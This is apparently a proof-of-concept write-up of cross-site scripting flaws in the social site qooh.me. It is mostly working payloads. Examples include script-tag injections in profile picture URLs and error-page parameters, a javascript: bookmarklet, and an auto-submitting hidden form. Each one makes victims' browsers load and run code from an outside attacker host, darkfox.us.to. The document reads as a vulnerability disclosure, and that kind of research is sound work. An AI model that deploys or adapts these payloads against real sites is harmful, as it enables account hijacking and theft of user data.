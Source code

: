 ``` html
"><script src=http://darkfox.us.to/e/a.js></script><span style="display:none
```

The image it's self can be requested in an ugly way, just like with the error
pages as shown later in this document. It also doesn't work in chromium due to
the request containing the attack vector. The following could be in an
`<iframe>` and alone it would run the code on the domain.

``` html
http://m.qooh.me/user.php
  ?module=userprofile
  &action=profile_pic
  &profile=DarkNFoxy
  &url="><script src=http://darkfox.us.to/e/a.js></script>
    <span style=display:none>
```

Website
-------

Two vulnerabilities here, first requires the user to click the link; the second
doesn't require the user to do a thing. Both require the desktop view.

``` javascript
javascript:(s=document.createElement("script")).src="//darkfox.us.to/e/a.js";
document.body.appendChild(s);void(0)
```

``` html
"><script src=http://darkfox.us.to/e/a.js></script><span style="display:none
```

Error pages
-----------

Error pages often show their requests in the output "raw" so the basic XSS
attack below is well known and even chromium prevents such attacks as it
understands that the XSS vector is in the request and… the only reason it would
be in the request is if it were to be malicious.

``` html
http://qooh.me/lib/
  ?user=<script src=//darkfox.us.to/e/a.js></script>
```

Find Friends
------------

If a user attempts to do a search for their friends who happen to match the name
of an attacker, they could cause code to through the results. This depends on
the exploitation through either the username or photo.

The user's request can be easily automated with an auto submitting form
/ redirect. This would be most ideal inside an iframe.

``` html
<!doctype html>
<head><title>Redirecting...</title>
<body onload="document.getElementsByTagName('form')[0].submit()">
  <form action=//m.qooh.me/account/find_people/#redirect method=post>
    <input name=keyword value=darknfoxy />
    <input type=submit />
  </form>
```
